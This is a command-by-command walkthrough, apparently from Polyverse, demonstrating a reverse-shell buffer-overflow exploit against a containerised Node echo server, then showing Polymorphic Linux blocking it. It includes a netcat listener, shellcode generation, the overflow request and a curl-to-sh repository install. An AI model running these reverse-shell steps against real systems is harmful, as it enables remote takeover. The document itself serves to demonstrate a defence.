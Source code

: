 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run Server with Readhook
### (2) Start the container with an interactive shell (Session-2)
    docker run -it --rm -p 8080:8080 polyverse/node-echo-server /bin/sh
### (2) We'll need curl and wget
    apk update && apk add curl wget ca-certificates && update-ca-certificates
### (2) Get readhook components
    wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.1.1/basehook.so
    wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.1.1/fullhook.so
### (2) Run the echo-server with readhook in front of libc
    LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
    export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
### (3) Send shell-code to the OVERFLOW for a reverse shell
    curl localhost:8080/$shellCode
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Replace standard packages with Polymorphic Linux
    sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
## Test Polyverse Polymorphic Linux
### (2) Re-run the echo-server with (only) basehook.so
    LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
### (3) Try the shellCode with Polymorphic Linux
    curl localhost:8080/$shellCode
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
